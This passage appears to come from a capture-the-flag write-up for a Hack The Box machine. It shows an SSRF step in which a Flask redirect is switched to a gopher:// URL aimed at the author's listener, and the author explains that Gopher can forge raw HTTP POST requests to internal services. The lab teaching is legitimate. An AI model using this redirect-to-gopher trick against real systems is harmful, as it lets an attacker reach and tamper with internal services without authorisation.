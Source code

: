 ```

```

#### Gopher

The next question is, can I redirect to a Gopher URL? I’ve shown this before in [Laser](/2020/12/19/htb-laser.html#apache-solr-exploit) and [Travel](/2020/09/12/htb-travel.html#interaction-with-memcache). Gopher is nice for this kind of thing because it has no headers. What you put in the URL is the body, so you can use it to write a HTTP POST request.

I’ll replace the location line in the server with:

```

    return redirect(f'gopher://10.10.14.6:5985/_test', code=301)

```

On submitting my URL to Jarmis, the redirects lead to this connection:

```

oxdf@parrot$ nc -lnvp 5985
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::5985
Ncat: Listening on 0.0.0.0:5985
Ncat: Connection from 10.10.11.117.
Ncat: Connection from 10.10.11.117:47660.
test

```

It worked! There’s one trick to notice here that is important. If I run that again and save the result to a file:

```

oxdf@parrot$ nc -lnvp 5985 | tee test
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::5985
Ncat: Listening on 0.0.0.0:5985
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:42184.
test
^C

```

Looking at that file, there’s a `0x0d0a` or `\r\n` on the end:

```

oxdf@parrot$ xxd test 
00000000: 7465 7374 0d0a                           test..

```
